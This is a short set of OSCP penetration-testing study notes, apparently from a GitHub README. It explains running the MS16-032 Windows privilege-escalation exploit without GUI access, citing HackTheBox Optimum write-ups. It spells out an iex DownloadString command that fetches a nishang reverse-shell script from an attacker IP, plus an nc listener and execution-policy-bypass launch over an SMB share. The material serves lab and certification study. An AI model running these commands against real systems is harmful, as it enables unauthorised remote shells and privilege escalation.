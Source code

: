 # OSCP-Notes
Generic Notes Regarding OSCP:

1.[ Misc](#misc)

## Misc:

### MS16-032 Non-GUI Method:
By default, this exploit requires GUI access on the victim. A modified ```Invoke-MS16032.ps1``` variant by [empire](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1) provides a workaround.

You will need a smbserver and python http server both serving the folder containing your .ps1 exploit and reverse shell. 

This should be already covered whilst in the previous parts of the pentesting process.

 Add this line to the end of the above ```Invoke-MS16032.ps1``` script:
```Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://<your attacker IP where your python3 http server is serving your working folder for exploits etc.>/<your nishang .ps1 reverse shell script>')"```.

IE: ``` Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.10/Invoke-PowerShellTcp.ps1')"```.

Then setup a listener ```sudo rlwrap nc -lvnp <port of choice used in http://10.10.14.10/Invoke-PowerShellTcp.ps1 >```.



Lastly, run using correct powershell like this:
 ```C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -ep bypass -File \\<your attacker IP>\<foldername used in smbserver.py>\Invoke-MS16-032.ps1```.
 
 If the x86 powershell does not work, use the x64 one here:
 ```C:\Windows\sysnative\WindowsPowershell\v1.0\powershell.exe -ep bypass -File \\<your attacker IP>\<foldername used in smbserver.py>\Invoke-MS16-032.ps1```.

- 1.[https://0xdf.gitlab.io/2021/03/17/htb-optimum.html](https://0xdf.gitlab.io/2021/03/17/htb-optimum.html) 
- 2.[https://ivanitlearning.wordpress.com/2020/08/01/hackthebox-optimum/](https://ivanitlearning.wordpress.com/2020/08/01/hackthebox-optimum/)

### Powershell Script Not Running
Sometimes, when ```.ps1``` exploits do not work, it may be due to how the default ```powershell.exe``` used is incorrect.
In this case, try to use: ```C:\Windows\systenative\WindowsPowershell\v1.0\powershell.exe``` instead, this will call the x64 version of powershell which may be what is needed for kernel exploits since by default, the x86 powershell is run instead in  ```C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe```.
